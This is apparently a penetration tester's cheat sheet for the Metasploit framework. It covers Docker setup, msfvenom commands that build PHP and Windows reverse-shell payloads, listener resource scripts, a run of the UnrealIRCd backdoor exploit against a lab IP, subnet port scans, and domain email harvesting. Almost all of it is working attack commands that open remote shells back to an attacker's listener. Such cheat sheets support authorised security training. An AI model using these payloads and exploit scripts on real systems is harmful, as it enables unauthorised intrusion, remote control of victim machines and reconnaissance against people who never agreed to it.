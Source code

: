 #### 1. About

- URL: `github.com/rapid7/metasploit-framework`
- metasploit framework


#### 2. Setup and run

Install:
```
# docker pull metasploitframework/metasploit-framework
# docker tag metasploitframework/metasploit-framework:latest msf
```

Expose ports on specific IP address and run:
```
# ip=`ip a | grep tun0 | grep inet | awk '{print $2}' | sed 's/\/.*//g'`
# docker run --name msf -e ip=$ip -v /tmp:/tmp -p 4000-4010:4000-4010 -d --rm -it msf
```

Bash profile aliases (`~/.bash_aliases` or `~/.profile`):
```
# [[ -z `grep masfvenom ~/.profile` ]] && echo 'alias msfvenom="docker exec -it msf /usr/src/metasploit-framework/msfvenom"' >> ~/.profile
# [[ -z `grep msfconsole ~/.profile` ]] && echo 'alias msfconsole="docker exec -it msf /usr/src/metasploit-framework/msfconsole"' >> ~/.profile
```


#### 3. Example 1
```
# msfvenom -p php/meterpreter/reverse_tcp LHOST=$ip LPORT=4001 R -o /tmp/msf/payload.php
# cat << EOF > /tmp/shell.rc
use exploit/multi/handler
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST 10.10.10.10
set LPORT 4001
exploit
EOF
# msfconsole -qr /tmp/shell.rc
```


#### 4. Example 2
```
# cat << EOF > /tmp/exploit.rc
use exploit/unix/irc/unreal_ircd_3281_backdoor
set RHOSTS 10.10.10.11
set RPORT 6697
set PAYLOAD cmd/unix/reverse
set LHOST 10.10.10.10
set LPORT 4001
exploit
EOF
# msfconsole -qr /tmp/exploit.rc
```


#### 5. Example 3 (custom exploit)
```
# docker run --name msf -v /tmp:/tmp -p 4000-4010:4000-4010 -d --rm -it msf
# msfvenom -p windows/shell_reverse_tcp LHOST=172.16.201.160 LPORT=4001 EXITFUNC=thread -b '\x00\x0a\x0d' -f python -v buffer
# cat << EOF > /tmp/handler.rc
use exploit/multi/handler
set PAYLOAD windows/shell_reverse_tcp
set EXITFUNC thread
set LHOST 10.10.10.11
set LPORT 4001
exploit
EOF
# msfconsole -qr /tmp/handler.rc
```


#### 6. Multi-handler and listeners for both x86 / x64

a) Payloads
```
# msfvenom -p windows/x64/shell/reverse_tcp -f raw -o /tmp/x64_rev_shell.exe EXITFUNC=thread LHOST=10.11.0.232 LPORT=6666
# msfvenom -p windows/shell/reverse_tcp -f raw -o /tmp/x86_rev_shell.exe EXITFUNC=thread LHOST=10.11.0.232 LPORT=5555
```

b) Listeners:
```
# cat << EOF > handler.cfg
use exploit/multi/handler
set LHOST 10.10.10.11
set ExitOnSession false
set EXITFUNC thread
set PAYLOAD windows/x64/shell/reverse_tcp
set LPORT 6666
exploit -j
set PAYLOAD windows/shell/reverse_tcp
set LPORT 5555
exploit -j
EOF
# /etc/init.d/postgresql start
# msfconsole -qr handler.cfg
```


#### 7. Port scanning

a) SYN scan
```
# q="use auxiliary/scanner/portscan/syn; \
   set INTERFACE tap0; \
   set PORTS 80; \
   set RHOSTS 10.11.1.*; \
   set THREADS 10; \
   run; exit y \
"
# msfconsole -qx "$q"
```

b) TCP scan
```
# q="use auxiliary/scanner/portscan/tcp; \
   set RHOSTS 10.11.1.*; \
   set PORTS 80; \
   set THREADS 5; \
   run; exit y \
"
# msfconsole -qx "$q"
```

c) SMB scan
```
# q="use auxiliary/scanner/smb/smb_version; \
   set RHOSTS 10.11.1.*; \
   set THREADS 11; \
   run; exit y \
"
# msfconsole -qx "$q"
```

d) Find idle boxes for zobie scan
```
# q="use auxiliary/scanner/ip/ipidseq; \
   set RHOSTS 10.11.1.*; \
   set THREADS 11; \
   run; exit y \
"
# msfconsole -qx "$q"
```


#### 8. Enumeration

a) Find emails on domain
```
# domain='example.com'
# q="use auxiliary/gather/search_email_collector; set DOMAIN $domain; run; exit y"
# msfconsole -qx "$q" | grep -oE "[-0-9a-zA-Z_]{1,}@$domain"
email@example.com
user@example.com
```


#### 9. MSF Database Cache
```
# systemctl start postgresql
# msfdb init
msf > db_status
msf > db_rebuild_cache
```
